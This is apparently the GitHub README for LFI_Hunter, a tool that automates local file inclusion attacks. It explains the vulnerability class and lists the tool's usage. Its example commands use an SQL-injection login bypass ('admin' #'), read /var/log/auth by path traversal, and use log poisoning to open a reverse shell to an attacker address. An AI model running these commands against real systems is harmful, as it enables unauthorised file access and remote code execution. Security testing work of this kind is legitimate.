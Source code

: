 # LFI_Hunter

##  what is LFT_Hunter ?
* LFT_Hunter tool help To atoumation file inclusion attack 
* read file and get the file in your local machine
* filter php base64 and auto decoded the data
* auto Injaction log file and get reverseshell "if can read log file"
* work with authentication login
* support not authentication as well 
#### LFI_Hunter modes 
   - Aggressive mode 
   - Burte Fource mode
   - read file mode
##  what is file inclusion vulnerability ?
* A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic directory traversal attack, in that directory traversal is a way of gaining unauthorized file system access, and a file inclusion vulnerability subverts how an application loads code for execution. Successful exploitation of a file inclusion vulnerability will result in remote code execution on the web server that runs the affected web application. An attacker can use remote code execution to create a web shell on the web server, which can be used for website defacement.
### Types of Inclusion
   #### A directory traversal (or path traversal) 
-  attack exploits insufficient security validation or sanitization of user-supplied file names, such that characters representing "traverse to parent directory" are passed through to the operating system's file system API. An affected application can be exploited to gain unauthorized access to the file system. 
 #### Remote file inclusion
   - Remote file inclusion (RFI) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the          form of an HTTP or FTP URI as a user-supplied parameter to the web application.
 #### Local file inclusion
   - Local file inclusion (LFI)
 is similar to a remote file inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server          can be included for execution. This issue can still lead to remote code execution by including a file that contains attacker-controlled data such as the web server's access logs. 
-----------------------------------------------------------------------------------

## More info :-
#### [file inclusion vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
#### [Directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)
#### [File inclusion attacks](https://resources.infosecinstitute.com/topic/file-inclusion-attacks/)
-------------------------------------------------------------------------------------------

## How to use : 
* pip install import mechanize
* git clone https://www.github.com/jac11/LFI_Hunter.git
* cd LFI_Hunter
* chmod +x LFI_Hunter.py
* ./LFI_Hunter -h
``` .     .____ _       __  __               .                
 /     /     |       |   |  ,   . , __   _/_     ___  .___ 
 |     |__.  | .---' |___|  |   | |'  `.  |    .'   ` /   \
 |     |     |       |   |  |   | |    |  |    |----' |   '
 /---/ /     /       /   /  `._/| /    |  \__/ `.___, /    
              @jacstory                                             

usage: LFI_Hunter.py [-h] -UV VULNURL [--auth] [-F FILELIST] -C COOKIE [-B] [-R READ] [-UF USERFORM] [-PF PASSFORM] [-P PASSWORD] [-LU LOGINURL] [-U USER] [-A] [-S SHELL]

Usage: [OPtion] [arguments] [ -w ] [arguments]

options:
  -h, --help            show this help message and exit
  -UV VULNURL, --Vulnurl VULNURL
                        url Targst web
  --auth                auth mautrd web
  -F FILELIST, --filelist FILELIST
                        read fron lfi wordlsit
  -C COOKIE, --Cookie COOKIE
                        Login sesion Cookie
  -B, --base64          decode filter php base64
  -R READ, --read READ  use to read file on the traget machine
  -UF USERFORM, --UserForm USERFORM
                        add name of the HTML Form Login User
  -PF PASSFORM, --PassForm PASSFORM
                        add name of the HTML Form Login Passord
  -P PASSWORD, --password PASSWORD
                        use specific Passowrd
  -LU LOGINURL, --loginurl LOGINURL
                        add login url for auth motted
  -U USER, --user USER  use specific username
  -A, --aggress         use aggressiv mode
  -S SHELL, --shell SHELL
                        to connent reverseshell
```
-------------------------------------------------------------------------------------------------
### Command read mode :-

```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  --read /var/log/auth -S 192.168.56.1 -UF username -PF password
```
 *  < -C / --cookies >   cookie file' add the cookie in to file and give the LFI_Hunter the path of the cookie file\
 *  < -VU / --Vulnurl >  the url of the file url "http://web.com/file="
 *  < --auth >           login the web from terminal
 *  < -LU / --loginurl>  add login url 
 *  < -U / --user >      add user name
 *  < -P / --password >  add the password 
 *  < -R / --read >      add the name of the to read from the website true the directory traversal 
 *  < -S / --shell >     connect auto reverse shell " if can read log files same like "/var/log/auth.log or /proc/sealf/envertion"
 *  < -UF / --USERFORM > if the field of username have different name so to can post in username give the field name after -UF 
 *  < -PF/ --PASSFORM  > if the field of password have different name so to can post in password give the fieldname after -PF
------------------------------------------------------------
### Command Agreesiv mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  -A
```
*  < -A / --aggress>  to user aggressive mode "for this mode LFI_Hunter use some of payload and comparison between length  response come from web site
the big length mine have date we want read it '
### Command brute force mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password
```
* brute force mode try payload untill can read file if can read it LFI_Hunter will break and give you information about the file

### Notes :
* all mode can run with authentication or not authentication as per your situation
* Cookies it required
* < -F / --filelist > LFI_Hunter have default wordlist to use for Brute force if you try your own list give -F and the path of your list
* < -B /--baes64 > To use php filtter decode64 'LFI_Hunter will decode the data to asscii auto 

### ScreenShot
 <img src = "images/2.gif" width=400> <img src = "images/7.gif" width=400>  
### Connect
* jac11devel@gmail.com
* thank you 
